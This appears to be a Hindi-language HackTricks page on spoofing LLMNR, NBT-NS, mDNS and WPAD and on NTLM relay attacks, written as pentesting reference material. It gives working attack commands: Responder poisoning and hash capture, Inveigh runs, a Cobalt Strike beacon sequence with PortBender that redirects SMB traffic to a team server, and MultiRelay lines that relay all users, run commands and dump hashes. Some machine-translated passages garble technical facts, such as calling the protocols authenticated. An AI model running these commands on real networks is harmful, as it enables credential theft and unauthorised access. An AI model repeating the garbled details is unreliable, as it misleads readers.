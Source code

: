 # Spoofing LLMNR, NBT-NS, mDNS/DNS और WPAD और रिले अटैक

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) से या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

## नेटवर्क प्रोटोकॉल

### स्थानीय होस्ट संकेतन प्रोटोकॉल
- **LLMNR, NBT-NS, और mDNS**:
- माइक्रोसॉफ्ट और अन्य ऑपरेटिंग सिस्टम LLMNR और NBT-NS का उपयोग स्थानीय नाम संकेतन के लिए करते हैं जब DNS विफल होता है। उसी तरह, Apple और Linux सिस्टम mDNS का उपयोग करते हैं।
- ये प्रोटोकॉल अपने अथेंटिकेटेड, यूडीपी पर प्रसारित प्रकृति के कारण अंतर्दृष्टि और स्पूफिंग के लिए संवेदनशील हैं।
- [Responder](https://github.com/lgandx/Responder) का उपयोग करके होस्ट जो इन प्रोटोकॉलों का प्रश्न कर रहे हैं को झूठे जवाब भेजकर सेवाओं का अनुकरण किया जा सकता है।
- Responder का उपयोग करके सेवा अनुकरण के बारे में अधिक जानकारी [यहाँ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) मिल सकती है।

### वेब प्रॉक्सी ऑटो-डिस्कवरी प्रोटोकॉल (WPAD)
- WPAD ब्राउज़र को प्रॉक्सी सेटिंग्स को स्वचालित रूप से खोजने की अनुमति देता है।
- खोज DHCP, DNS के माध्यम से सुविधा प्रदान करता है, या DNS विफल होने पर LLMNR और NBT-NS में लौटता है।
- Responder WPAD अटैक को स्वचालित कर सकता है, ग्राहकों को दुरुपयोगी WPAD सर्वरों पर निर्देशित करता है।

### प्रोटोकॉल पॉइजनिंग के लिए Responder
- **Responder** एक उपकरण है जो LLMNR, NBT-NS, और mDNS क्वेरी के लिए पॉइजनिंग के लिए उपयोग किया जाता है, प्रश्न प्रकार के आधार पर चुनकर प्रतिक्रिया देता है, मुख्य रूप से SMB सेवाओं को लक्षित करता है।
- यह Kali Linux में पूर्व-स्थापित है, `/etc/responder/Responder.conf` में कॉन्फ़िगर किया जा सकता है।
- Responder द्वारा दर्ज किए गए हैश स्क्रीन पर प्रदर्शित करता है और उन्हें `/usr/share/responder/logs` निर्देशिका में सहेजता है।
- यह IPv4 और IPv6 दोनों का समर्थन करता है।
- Responder का Windows संस्करण [यहाँ](https://github.com/lgandx/Responder-Windows) उपलब्ध है।

#### Responder चलाना
- डिफ़ॉल्ट सेटिंग्स के साथ Responder चलाने के लिए: `responder -I <Interface>`
- अधिक प्रोबिंग के लिए (संभावित प्रभावों के साथ): `responder -I <Interface> -P -r -v`
- NTLMv1 चैलेंज/प्रतिक्रिया को आसानी से क्रैक करने के लिए तकनीकें: `responder -I <Interface> --lm --disable-ess`
- WPAD अनुकरण को सक्रिय करने के लिए: `responder -I <Interface> --wpad`
- NetBIOS अनुरोधों को हमलवर के IP पर हल किया जा सकता है, और प्रमाणीकरण प्रॉक्सी सेट किया जा सकता है: `responder.py -I <interface> -Pv`

### Responder के साथ DHCP पॉइजनिंग
- DHCP प्रतिक्रियाओं को झूठलाने से एक पीड़ित का रूटिंग सूचना स्थायी रूप से पॉइजन किया जा सकता है, ARP पॉइजनिंग के लिए एक गुप्त विकल्प प्रदान करता है।
- इसे लक्ष्य नेटवर्क के विन्यास के सटीक ज्ञान की आवश्यकता होती है।
- हमले को चलाने के लिए: `./Responder.py -I eth0 -Pdv`
- यह विधि NTLMv1/2 हैश को प्रभावी ढंग से कैप्चर कर सकती है, लेकिन नेटवर्क विघटन से बचने के लिए सावधानी से हैंडल करना चाहिए।

### Responder के साथ क्रेडेंशियल कैप्चर
- Responder उपरोक्त प्रोटोकॉलों का दुरुपयोग करके सेवाओं का अनुकरण करेगा, क्रेडेंशियल को कैप्चर करेगा (सामान्यत: NTLMv2 चैलेंज/प्रतिक्रिया) जब एक उपयोगकर्ता झूठी सेवाओं के खिलाफ प्रमाणीकरण करने का प्रयास करता है।
- क्रैकिंग के लिए NTLMv1 या ESS को अक्षम करने के लिए नेटNTLMv1 की ओर डाउनग्रेड करने की कोशिश की जा सकती है।

यह महत्वपूर्ण है कि इन तकनीकों का उपयोग कानूनी और नैतिक रूप से किया जाना चाहिए, सही अधिकारिकरण सुनिश्चित करते हुए और अवैध पहुंच या अनधिकृत पहुंच से बचते हुए।

## Inveigh

Inveigh एक उपकरण है पेनेट्रेशन टेस्टर्स और रेड टीमर्स के लिए, विंडोज सिस्टमों के लिए डिज़ाइन किया गया है। यह Responder के समान कार्यक्षमताएँ प्रदान करता है, स्पूफिंग और मैन-इन-द-मिडल हमले करता है। यह उपकरण एक PowerShell स्क्रिप्ट से C# बाइनरी में विकसित हुआ है, [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) और [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) मुख्य संस्करण हैं। विस्तृत पैरामीटर और निर्देशों को [**विकि**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) में पाया जा सकता है।

Inveigh को PowerShell के माध्यम से चलाया जा सकता है:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
या C# बाइनरी के रूप में निष्पादित:
```bash
Inveigh.exe
```
### NTLM रिले हमला

यह हमला SMB प्रमाणीकरण सत्रों का उपयोग करता है एक लक्ष्य मशीन तक पहुंचने के लिए, सफल होने पर एक सिस्टम शैल प्रदान करता है। मुख्य आवश्यकताएं शामिल हैं:
- प्रमाणित करने वाले उपयोगकर्ता को रिले होस्ट पर स्थानीय व्यवस्थापक एक्सेस होना चाहिए।
- SMB साइनिंग को अक्षम कर दिया जाना चाहिए।

#### 445 पोर्ट फॉरवर्डिंग और टनलिंग

उन परिस्थितियों में जहाँ सीधा नेटवर्क परिचय संभव नहीं है, पोर्ट 445 पर ट्रैफिक को फॉरवर्ड और टनल करने की आवश्यकता होती है। [**PortBender**](https://github.com/praetorian-inc/PortBender) जैसे उपकरण सहायक होते हैं पोर्ट 445 ट्रैफिक को एक और पोर्ट पर पुनर्निर्देशित करने में, जो जरुरी होता है जब ड्राइवर लोडिंग के लिए स्थानीय व्यवस्थापक एक्सेस उपलब्ध हो।

कोबाल्ट स्ट्राइक में PortBender सेटअप और ऑपरेशन:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM रिले हमले के लिए अन्य उपकरण

- **Metasploit**: प्रॉक्सी, स्थानीय और दूरस्थ होस्ट विवरण के साथ सेटअप करें।
- **smbrelayx**: SMB सत्रों को रिले करने और कमांड या बैकडोअर लागू करने के लिए एक Python स्क्रिप्ट।
- **MultiRelay**: एक उपकरण Responder सुइट से, विशिष्ट उपयोगकर्ताओं या सभी उपयोगकर्ताओं को रिले करने, कमांड निष्पादित करने, या हैश डंप करने के लिए।

प्रत्येक उपकरण को यदि आवश्यक हो तो एक SOCKS प्रॉक्सी के माध्यम से संचालित किया जा सकता है, जो अप्रत्यक्ष नेटवर्क एक्सेस के साथ भी हमले को संभावित बनाता है।

### MultiRelay ऑपरेशन

MultiRelay को _**/usr/share/responder/tools**_ निर्देशिका से निर्वाहित किया जाता है, विशिष्ट आईपी या उपयोगकर्ताओं को लक्ष्य बनाते हुए।
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### एनटीएलएम रिले हमले का प्रयास करें

Windows में आप **कुछ विशेषाधिकारी खातों को अनियमित मशीनों पर प्रमाणीकृत करने के लिए सक्षम हो सकते हैं**। निम्नलिखित पृष्ठ को पढ़ें और जानें कैसे:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## संदर्भ
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** को** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
